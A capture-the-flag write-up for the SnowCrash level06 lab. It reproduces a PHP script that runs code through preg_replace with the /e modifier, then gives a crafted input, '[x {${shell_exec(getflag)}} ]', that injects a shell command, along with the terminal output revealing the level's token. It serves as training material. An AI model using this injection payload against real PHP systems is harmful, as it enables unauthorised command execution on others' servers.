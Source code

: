 # Snowcrash06

This time we have a binary as well as a php file.

```php
#!/usr/bin/php
<?php
function y($key)
{   $key = preg_replace("/\./", " x ", $key);
    $key = preg_replace("/@/", " y", $key);
    print "here";
    return $key;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
    $r = x($argv[1], $argv[2]);
    print $r;
?>

```

The executable calls the PHP file, in which there is a line that interprets as PHP code
We just have to be able to reach it

It looks something like that
```sh
[x {${shell_exec(getflag)}} ]
```

```sh
level06:~$ echo '[x {${shell_exec(getflag)}} ]' > /tmp/t
level06@SnowCrash:~$ ./level06 /tmp/t
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
